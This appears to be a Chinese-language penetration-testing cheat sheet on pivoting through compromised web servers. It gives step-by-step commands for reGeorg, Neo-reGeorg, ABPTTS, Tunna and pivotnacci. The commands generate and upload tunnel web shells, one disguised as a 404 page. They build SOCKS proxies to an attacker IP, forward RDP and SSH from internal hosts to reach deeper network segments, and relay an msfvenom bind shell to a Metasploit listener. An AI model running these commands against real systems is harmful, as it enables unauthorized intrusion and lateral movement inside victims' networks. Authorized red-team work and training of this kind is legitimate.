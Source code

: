 #### reGeorg
	https://github.com/sensepost/reGeorg
	>python reGeorgSocksProxy.py -u http://靶机/tunnel.aspx -l 外网IP -p 10080
	打开Proxifier，更改为脚本指定的端口10080
![image](/assets/Pentest_Note/master/img/332.png)

	或proxychains
	>vim /etc/proxychains.conf
	去掉dynamic_chain注释>添加socks5 127.0.0.1 10080
![image](/assets/Pentest_Note/master/img/333.png)

	或MSF
	>setg proxies socks5:外网IP:10080
	>setg ReverseAllowProxy true 允许反向代理
![image](/assets/Pentest_Note/master/img/334.png)
 #### Neo-reGeorg
	Step 1. 设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
	$ python3 neoreg.py generate -k password
![image](/assets/Pentest_Note/master/img/335.png)

	伪装页面
	$ python3 neoreg.py generate -k <you_password> --file 404.html
	Step 2. 使用 neoreg.py 连接WEB服务器，在本地建立 socks 代理
	$ python3 neoreg.py -k password -u http://xx/tunnel.php
	$ python3 neoreg.py -k <you_password> -u <server_url> --skip
	开启代理
	$ python neoreg.py -k <you_password> -l 外网IP -p 10081 -u http://xx/neo-tunnel.aspx
![image](/assets/Pentest_Note/master/img/336.png)
![image](/assets/Pentest_Note/master/img/337.png)
 #### ABPTTS端口转发
	https://github.com/nccgroup/ABPTTS
	端口转发
	>python abpttsfactory.py -o webshell 生成shell
	./webshell目录下生成的相应脚本文件传入目标中
	>python abpttsclient.py -c webshell/config.txt -u "http://目标网址/trans.aspx" -f 攻击机IP:12345/目标IP:3389
![image](/assets/Pentest_Note/master/img/338.png)
![image](/assets/Pentest_Note/master/img/339.png)
![image](/assets/Pentest_Note/master/img/340.png)

	ABPTTS转发内网其他机器端口
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.105:3389
![image](/assets/Pentest_Note/master/img/341.png)
![image](/assets/Pentest_Note/master/img/342.png)

	要转发多个机器或多个端口
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.105:3389 -f 192.168.0.107:33891/10.1.1.101:80 -f 192.168.0.107:33892/10.1.1.102:22
	SSH代理一级网段
	需要一台有权限的Linux靶机
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.108:22
	>ssh -p 222 -qTfnN -D 0.0.0.0:1081 root@192.168.0.107
![image](/assets/Pentest_Note/master/img/343.png)

	配置proxychains即可
![image](/assets/Pentest_Note/master/img/344.png)

	SSH代理二级网段
	需要靶机web权限，一级内网一台web权限
	转发内网web出来传入abptts的shell
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:8080/10.1.1.108:80 
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.107/qq.aspx -f 192.168.0.107:222/10.1.1.106:22
	SSH连接192.168.0.107:222即可到达二级网络
	反弹msf
	kali生成bind型脚本
	>msfvenom -p linux/x64/shell_bind_tcp LPORT=12138 -f elf -o shell
	在二级不出网linux上执行
	将他的12138端口通过abptts转出
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:13128/10.1.1.101:12138
	Msf本地监听13128即可
 #### Tunna转发
	>python proxy.py -u http://192.168.0.98/tunnel.aspx -l 12138 -r 3389 –v
![image](/assets/Pentest_Note/master/img/345.png)

 #### pivotnacci
	>pip3 install pivotnacci
	>pivotnacci  https://domain.com/agent.php --password "s3cr3t"
	>pivotnacci  https://domain.com/agent.php --polling-interval 2000